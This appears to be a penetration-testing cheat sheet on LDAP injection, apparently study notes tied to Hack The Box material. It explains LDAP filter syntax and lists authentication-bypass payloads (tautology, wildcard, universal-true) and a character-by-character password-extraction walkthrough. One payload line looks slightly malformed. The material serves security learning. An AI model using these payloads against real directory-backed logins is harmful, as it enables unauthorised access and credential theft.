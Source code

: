 # LDAP Injection

### It is used to:

 - 1) Authentication Bypass: Modifying LDAP authentication queries to log in as another user without knowing their password.

 - 2) Unauthorized Data Access: Altering LDAP search queries to retrieve sensitive information not intended for the attacker's access.

 - 3) Data Manipulation: Injecting queries that modify the LDAP directory, such as adding or modifying user attributes.

## Authentication Bypass Techniques

### Tautology-based Injection

#### Payload:

    (&(uid=*)(|(&)(userPassword=pwd)))

#### This payload functions similarly to the OR 1=1 SQL statement because it uses the logic either of the 2 statements are true, which means the entire query is true.

### Wildcard Injection

#### Injected Payload:

    username=*&password=*

### Condition always evaluates to true, bypassing the password checking mechanism

#### Targeted Injected Payload

    username=a*&password*

### This payload searches for specific targets that start with the letter a. Use more letters for more granular searching power

## LDAP Injection

#### LDAP Search Filter Syntax

|Name|Operand|Example|Example Description|
|---|---|---|---|
|Equality|`=`|`(name=Kaylie)`|Matches all entries that contain a `name` attribute with the value `Kaylie`|
|Greater-Or-Equal|`>=`|`(uid>=10)`|Matches all entries that contain a `uid` attribute with a value greater-or-equal to `10`|
|Less-Or-Equal|`<=`|`(uid<=10)`|Matches all entries that contain a `uid` attribute with a value less-or-equal to `10`
|Approximate Match|`~=`|`(name~=Kaylie)`|Matches all entries that contain a `name` attribute with approximately the value `Kaylie`|
|And|`(&()())`|`(&(name=Kaylie)(title=Manager))`|Matches all entries that contain a `name` attribute with the value `Kaylie` and a `title` attribute with the value `Manager`|
|Or|<code>(&#124;()())</code>|<code>(&#124;(name=Kaylie)(title=Manager))</code>|Matches all entries that contain a `name` attribute with the value `Kaylie` or a `title` attribute with the value `Manager`|
|Not|`(!())`|`(!(name=Kaylie))`|Matches all entries that contain a `name` attribute with a value different from `Kaylie`|
|True|`(&)`|`(&)`|Universal True|
|False|<code>(&#124;)</code>|<code>(&#124;)</code>|Universal False|
|Wildcard|`*`|`(name=*a*)`|Matches all entries that contain a name attribute that contains an `a`|


#### Authentication Bypass

|Description|Username|Password|Search Filter|
|---|---|---|---|
|Regular Authentication|`admin`|`admin`|`(&(uid=admin)(userPassword=admin))`|
|Wildcard Bypass|`*`|`*`|`(&(uid=*)(userPassword=*))`|
|Wildcard Bypass targeting specific user|`admin*`|`*`|`(&(uid=admin*)(userPassword=*))`|
|Universal True Bypass|<code>admin)(&#124;(&#x26;</code>|`invalid)`|<code>(&#x26;(uid=admin)(&#124;(&#x26;)(userPassword=invalid)))</code>|


#### Data Exfiltration

Brute-Force data character-by-character:

|Username|Password|Query|
|---|---|---|
|`htb-stdnt`|`*`|`(&(uid=htb-stdnt)(userPassword=*))`|
|`htb-stdnt`|`p*`|`(&(uid=htb-stdnt)(userPassword=p*))`|
|`htb-stdnt`|`p@*`|`(&(uid=htb-stdnt)(userPassword=p@*))`|
|`htb-stdnt`|`p@s*`|`(&(uid=htb-stdnt)(userPassword=p@s*))`|
|`htb-stdnt`|`p@ss*`|`(&(uid=htb-stdnt)(userPassword=p@ss*))`|
|`htb-stdnt`|`p@ssw*`|`(&(uid=htb-stdnt)(userPassword=p@ssw*))`|
|`htb-stdnt`|`p@ssw0*`|`(&(uid=htb-stdnt)(userPassword=p@ssw0*))`|
|`htb-stdnt`|`p@ssw0r*`|`(&(uid=htb-stdnt)(userPassword=p@ssw0r*))`|
|`htb-stdnt`|`p@ssw0rd*`|`(&(uid=htb-stdnt)(userPassword=p@ssw0rd*))`|
|`htb-stdnt`|`p@ssw0rd`|`(&(uid=htb-stdnt)(userPassword=p@ssw0rd))`|
